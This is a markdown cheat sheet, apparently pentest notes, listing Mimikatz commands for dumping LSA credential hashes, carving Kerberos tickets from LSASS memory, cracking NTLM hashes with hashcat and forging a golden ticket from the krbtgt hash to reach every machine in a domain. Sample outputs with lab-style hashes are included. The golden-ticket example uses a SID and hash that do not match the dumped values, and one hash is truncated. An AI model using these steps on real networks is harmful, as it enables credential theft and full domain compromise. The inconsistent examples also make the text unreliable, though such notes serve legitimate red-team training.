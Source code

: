 # Mimikatz

## Tables of Contents

* [Mimikatz](mimikatz.md#mimikatz)
  * [Tables of Contents](mimikatz.md#tables-of-contents)
  * [Run](mimikatz.md#run)
  * [Dump hashes](mimikatz.md#dump-hashes)
  * [Crack with hashcat](mimikatz.md#crack-with-hashcat)
  * [Golden Ticket](mimikatz.md#golden-ticket)
  * [Create the Golden Ticket](mimikatz.md#create-the-golden-ticket)
  * [Use the Ticket](mimikatz.md#use-the-ticket)
  * [DPAPI](mimikatz.md#dpapi)
* Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network
* Transfer mimikatz.exe to the target

## Run

```
./mimikatz.exe
```

* Ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator.
* If you don't run mimikatz as an administrator, mimikatz will not run properly

```
privilege::debug 
```

## Dump hashes

```
lsadump::lsa /patch
```

## Mimikatz .kirbi extraction&#x20;

```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # standard::base64 /output:true
mimikatz # kerberos::list /export
```

## Carve Tickets out of LSASS Memory

* Mimikatz can carve tickets directly out of LSASS memory&#x20;

```
mimikatz # privilege::debug
mimikatz # standard::base64 /output:true
mimikatz # sekurlsa::tickets /export

Using 'out.txt' for logfile : OK

mimikatz # kerberos::list /export
--OR--
sekurlsa::tickets /export
```

## Crack with hashcat

```
hashcat -m 1000 <hash> rockyou.txt
```

## Golden Ticket

* Again using the mimikatz as the previous task; however, this time we'll be using it to create a golden ticket.
* We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.
* This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

* Output should look like this:

```
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

## Create the Golden Ticket

* You will need the:
* Domain SID (S-1-5-21-849420856-2351964222-986696166)
* USER (krbtgt)
* NTLM (5508500012cc005cf7082a9a89ebdfd)
* Create a Golden Ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

* To create a golden ticket based on the output above we would use:

```
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3893474861-143125734-211
2006029 /krbtgt:78558f004296a6f9438f4532164a7acd /id:500
```

* Output should look like this:

```
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-3893474861-143125734-2112006029
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 78558f004296a6f9438f4532164a7acd - rc4_hmac_nt
Lifetime  : 8/8/2021 4:37:58 PM ; 8/6/2031 4:37:58 PM ; 8/6/2031 4:37:58 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

## Use the Ticket

* Use the Golden Ticket to access other machines:

```
misc::cmd
```

* This will open a new command prompt with elevated privlages to all machines
* Access other Machines! - You will now have another command prompt with access to all other machines on the network

## DPAPI&#x20;

* Credit for below section:
* [https://hunter2.gitbook.io/darthsidious/privilege-escalation/mimikatz  ](https://hunter2.gitbook.io/darthsidious/privilege-escalation/mimikatz)

```
mimikatz # sekurlsa::dpapi
```

* See blog post&#x20;
